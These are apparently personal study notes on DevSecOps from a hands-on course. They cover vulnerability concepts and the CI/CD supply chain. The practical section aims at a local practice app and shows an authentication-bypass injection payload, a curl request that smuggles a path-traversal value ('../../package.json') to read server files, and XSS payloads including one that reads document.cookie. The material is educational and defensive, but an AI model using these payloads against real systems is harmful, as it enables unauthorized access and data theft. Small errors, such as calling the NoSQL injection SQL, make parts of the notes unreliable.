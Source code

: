 # DevSecOps

- Integration of security practices into DevOps software delivery model
- Security practices are integrated as early as possible into the software development

## 1. Vulnerabilities

- The average cost of a data breach was $3.86 Million in 2020

### Concepts

- Vulnerability: software code flaw, system misconfiguration that hackers can use to gain unauthorized access to a system or network
- Exploit: the method hackers use to exploit a vulnerability
- Threat: the actual/hypothetical exploit attempt on a vulnerability

### Types of vulnerabilities

- OWASP
- CWE
- Broken Access Control: hacker "hijacks" the system and gains control to portions of the application that it shouldn't have

1. Porous defenses

- One weakness that can be used to bypass or spoof authentication and authorization processes
  - Authentication: verifies identity
  - Authorization: verifies the level of access/permissions

2. Risky Resource Management
3. Insecure interaction between components

- Many applications today send and receive data across a wide range of services, threads, and processes
- The way they interact with each other can introduce vulnerabilities

## 2. DevOps vs. DevSecOps

![alt text](image-1.png)

- Set of practices that combine software development (dev) and IT operations (ops)
- Continuous delivery with high-software availability
- In DevSecOps, security is implemented on the different nodes of the CI/CD pipeline

![alt text](image.png)

- On an average software project, only 10-20% is custom code. We have, under the hood, thousands of libraries written
- Libraries and frameworks that you important can, themselves, import other libraries and frameworks
- Beyond libraries, we have containers, which are written with a bunch of packages inherited from public sources

## 3. Exploiting common vulnerabilities

### Intercepting HTTP Request and Injecting SQL

1. Download Burp Suite: https://portswigger.net/burp/releases/professional-community-2025-4-4
2. Spin up the browser inside Burp Suite
3. Intercept HTTP requests
4. Modify the request:

```json
// change to json -> we will inject SQL here
Content-Type: application/json
Accept: application/json, */*;q=0.5

// injecting sql
{
"username":"admin@snyk.io",
	"password": {"$gt": ""}
 }
```

5. Then forward the request

### Using CURL

- CURL: Command-line utility for transferring data to or from a server
  ![alt text](image-2.png)

#### CURL Structure

1. curl -X POST -> method
2. Data required for endpoint

```
-d "Body=hey"
-d "From=somewhere"
-d "To=someone"
```

3. `https://cool_website/endpoint/` -> the url

4. authentication

```
-u "$SOME_AUTH"
```

- Logging and getting the credentials

- curl X "POST" -> uses the HTTP post
- --cokie c.txt -> reads any existing cookies from the file c.txt and includes them in the request
- --cookie-jar c.txt -> after the response, saved any "Set-Cookie" headers back into c.txt (subsequent requests reuse the session)
- -H "Content-Type: application/json" -> sets the header of content type, telling the server to expect JSON in the body
- --data-binary -> sends the JSON payload as-is (no URL-encoding)
- "http/..." -> the endpoint

```bash
curl -X "POST" --cookie c.txt --cookie-jar c.txt -H 'Content-Type: application/json' --data-binary '{"username":"admin@snyk.io", "password":"SuperSecretPassword"}' 'http://localhost:3001/login'
```

- Retrieving data from server

```bash
curl -X "POST" --cookie c.txt --cookie-jar c.txt -H 'Content-Type: application/json' --data-binary '{"email":"admin@snyk.io", "firstname": "admin", "lastname":"admin", "country":"IL", "phone":"+123123", "layout":"../../package.json"}' "http://localhost:3001/account_details"
```

### Injecting JavaScript

```
localhost:3001/login?redirectPage="><script>alert("hey")</script>
```

### How to prevent the most common cross site scripting attack

```
<!-- this is injects javascript into the html -->
<img src onerror="alert(hi)">
<img src onerror="alert(document.cookie)">
```

- How to solve it?

```js
// instead of using innerHTML, use innerText
document.getElementById("query-output").innerHTML = query;

// instead of using innerText, use innerText
document.getElementById("query-output").innerText = query;
```

## 4. Solving Vulnerabilities

- Search for `Snyk` extension on VSCode store
- Install it and grant it permission and the necessary credentials

### Installing snyk

```
npm install -g snyk
snyk auth
```
